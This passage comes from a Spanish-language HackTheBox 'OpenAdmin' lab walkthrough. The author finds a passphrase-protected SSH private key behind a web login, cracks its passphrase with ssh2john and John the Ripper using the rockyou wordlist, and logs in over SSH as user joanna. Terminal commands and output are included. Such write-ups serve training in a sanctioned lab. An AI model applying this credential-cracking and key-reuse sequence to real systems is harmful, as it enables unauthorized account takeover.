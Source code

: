 Después de esto pruebo a ingresar el usuario y la contraseña en el panel de login del que habiamos hecho el port forwarding.

Y estas son válidas.

Al ingresar, me encuentro con una clave id_rsa protegida con contraseña:

![navegador5](https://user-images.githubusercontent.com/67548295/124473459-e3179480-dd8e-11eb-9b31-0ac698a9f1b5.png)

Para averiguar la contraseña de esta id_rsa, hago uso de la utilidad ```ssh2john``` para generar un hash que crackearé con ```JohnTheRipper```

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/OpenAdmin/content]
└──╼ $ ssh2john.py id_rsa > hash

┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/OpenAdmin/content]
└──╼ $ john --wordlist=/home/z3r0byte/wordlists/rockyou.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bXXXXXXXXXs      (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:04 DONE (2021-07-05 13:53) 0.2008g/s 2879Kp/s 2879Kc/s 2879KC/sa6_123..*7¡Vamos!
Session completed
```
Hemos crackeado la contraseña!!!

Suponiendo que la id_rsa es de _joanna_, intento conectarme por ssh con la id_rsa:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/OpenAdmin/content]
└──╼ $ssh -i id_rsa joanna@10.10.10.171
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul  5 12:55:50 UTC 2021

  System load:  0.0               Processes:             153
  Usage of /:   49.9% of 7.81GB   Users logged in:       2
  Memory usage: 32%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Jul  5 11:14:27 2021 from 10.10.14.168
joanna@openadmin:~$ 
```